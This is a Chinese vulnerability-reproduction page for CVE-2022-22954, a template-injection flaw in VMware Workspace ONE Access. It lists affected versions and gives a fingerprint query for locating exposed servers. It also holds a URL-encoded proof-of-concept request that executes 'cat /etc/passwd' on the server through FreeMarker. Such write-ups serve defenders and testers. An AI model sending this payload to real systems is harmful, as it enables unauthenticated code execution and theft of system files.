


VMware Workspace ONE Access SSTI漏洞 CVE-2022-22954¶
漏洞描述¶
VMware Workspace ONE Access（以前称为VMware Identity Manager）旨在通过多因素身份验证、条件访问和单点登录，让您的员工更快地访问SaaS、Web和本机移动应用程序。其中的CVE-2022-22954是一个匿名服务器模板注入漏洞，未经身份验证的攻击者可以利用此漏洞进行远程任意代码执行。
漏洞影响¶
VMware Workspace ONE Access Appliance （版本号：20.10.0.0 ，20.10.0.1 ，21.08.0.0 ，21.08.0.1 ）
VMware Identity Manager Appliance （版本号：3.3.3 ， 3.3.4 ， 3.3.5 ，3.3.6）
VMware Realize Automation （版本号：7.6）
网络测绘¶
app="vmware-Workspace-ONE-Access"
漏洞复现¶
登录页面

验证POC
/catalog-portal/ui/oauth/verify?error=&deviceUdid=%24%7b%22%66%72%65%65%6d%61%72%6b%65%72%2e%74%65%6d%70%6c%61%74%65%2e%75%74%69%6c%69%74%79%2e%45%78%65%63%75%74%65%22%3f%6e%65%77%28%29%28%22%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%22%29%7d
